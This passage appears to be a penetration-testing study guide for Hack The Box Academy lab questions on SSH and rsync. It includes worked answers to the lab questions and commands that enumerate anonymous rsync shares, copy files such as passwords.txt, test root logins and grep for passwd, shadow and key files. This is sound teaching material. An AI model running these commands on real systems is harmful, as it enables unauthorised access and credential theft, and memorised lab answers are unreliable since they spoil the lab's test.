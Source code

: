 ```bash
# Step 4: Download interesting files
rsync -av target::backup/passwords.txt ./
rsync -av target::public/config/ ./config/
```

### HTB Academy Lab Questions Examples
```bash
# Question 1: "Which version of SSH is running on the target?"
nmap -p22 -sV target
# Look for: ssh OpenSSH 7.6p1
# Answer: 7.6p1

# Question 2: "What rsync modules are available?"
rsync target::
# Look for module names in output
# Answer: backup, public

# Question 3: "What files are in the backup module?"
rsync target::backup/
# Look for file listings
# Answer: passwords.txt, config.bak

# Question 4: "Extract the flag from the rsync share"
rsync -av target::backup/flag.txt ./
cat flag.txt
# Answer: HTB{...}
```

## Security Assessment

### SSH Security Assessment
```bash
# Check SSH configuration
ssh -T -o StrictHostKeyChecking=no target 2>&1 | grep -E "debug|config"

# Test weak authentication
ssh user@target
ssh root@target

# Check for SSH vulnerabilities
nmap -p22 --script ssh-vuln* target
```

### Rsync Security Assessment
```bash
# Test anonymous access
rsync target::

# Check for write permissions
echo "test" | rsync - target::module/test.txt

# Enumerate sensitive files
rsync target::module/ | grep -E "passwd|shadow|key|config"
```
